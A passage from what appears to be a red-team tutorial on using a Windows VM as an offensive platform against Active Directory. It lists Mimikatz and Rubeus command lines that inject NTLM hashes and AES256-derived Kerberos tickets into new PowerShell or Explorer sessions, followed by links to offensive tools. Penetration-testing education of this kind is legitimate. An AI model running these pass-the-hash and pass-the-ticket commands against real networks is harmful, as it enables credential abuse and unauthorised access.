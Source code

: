 **Respawn Windows Explorer**

The following command-line kills all `explorer.exe` instances and then using both Mimikatz and Rubeus relaunches it with a new logon session with the NTLM hash and Kerberos ticket injected into it.

```powershell
set domain=ad.bitsadmin.com
set user=User1
set rc4=BEB7BFC1623370D9CD19DEB26C69097B

taskkill /F /IM explorer.exe & mimikatz.exe privilege::debug "sekurlsa::pth /domain:%domain% /user:%user% /ntlm:%rc4% /run:"""cmd.exe /c Rubeus.exe asktgt /domain:%domain% /user:%user% /rc4:%rc4% /ptt ^& start C:\Windows\explorer.exe /NoUACCheck"""" exit
```

## AES128/AES256 hash
Besides authenticating using an NTLM hash, it is also possible to authenticate to Active Directory using an AES128 or AES256 hash and obtain a TGT. In case in addition to the AES hash an NTLM hash is available, the command-line from the NTLM hash subsection can be updated to prepare a PowerShell window or Windows Explorer session with both the NTLM hash for fallback to NTLM authentication and a TGT requested using the AES hash. Wherever the `/aes256` parameter is mentioned for an AES256 hash, it can be replaced with the `/aes128` parameter for an AES128 hash.

**PowerShell**

The following command-line can be used to launch PowerShell making use of authentication using an AES256 hash.

```powershell
Rubeus.exe asktgt /domain:ad.bitsadmin.com /user:User1 /aes256:CE6559D565EF9B5AFCFFC8F75709DAA854832D1951D6E38E21084FE22962BF62 /createnetonly:powershell.exe /show
```

**Respawn Windows Explorer**

The following command-line kills all `explorer.exe` instances and then relaunches it with a new logon session which requests a TGT using an AES256 hash.

```powershell
taskkill.exe /F /IM explorer.exe & Rubeus.exe asktgt /domain:ad.bitsadmin.com /user:User1 /aes256:CE6559D565EF9B5AFCFFC8F75709DAA854832D1951D6E38E21084FE22962BF62 /createnetonly:"C:\Windows\explorer.exe /NoUACCheck" /show
```

[^17]: <https://learn.microsoft.com/en-us/windows/win32/secauthn/lsa-logon-sessions>
[^18]: <https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw>
[^19]: <https://learn.microsoft.com/en-us/windows/win32/secauthn/ssp-packages-provided-by-microsoft>
[^20]: <https://learn.microsoft.com/en-us/sysinternals/downloads/logonsessions>


# Conclusion
This concludes the part two in which both the Offensive Windows VM has been configured as well as credential material has been obtained and prepared. **[Part 3 of this article](/living-off-the-foreign-land-windows-as-offensive-platform-part-3)**, which is the final part, will discuss how to now use this setup to perform reconnaissance and offensive activities on the target network.


# Appendix B: Credential types and tools


[^1]: <https://github.com/bitsadmin/lofl>
[^2]: <https://www.windowsworkstation.com/win2016-2019/>
[^3]: <https://github.com/mandiant/commando-vm#pre-install-procedures>
[^4]: <https://github.com/gentilkiwi/mimikatz>
[^5]: <https://github.com/GhostPack/Rubeus>
[^6]: <https://learn.microsoft.com/en-us/sysinternals/>
[^7]: <https://github.com/bitsadmin/fakelogonscreen>
[^8]: <https://github.com/shantanu561993/SharpLoginPrompt>
[^9]: <https://github.com/FuzzySecurity/StandIn>
[^10]: <https://github.com/eladshamir/Internal-Monologue>
[^11]: <https://github.com/leftp/DPAPISnoop>
[^12]: <https://posts.specterops.io/certified-pre-owned-d95910965cd2>
[^13]: <https://github.com/GhostPack/Certify>
[^14]: <https://github.com/eladshamir/Whisker>
[^15]: <https://github.com/bugch3ck/SharpAltSecIds>
[^16]: <https://github.com/dirkjanm/PKINITtools>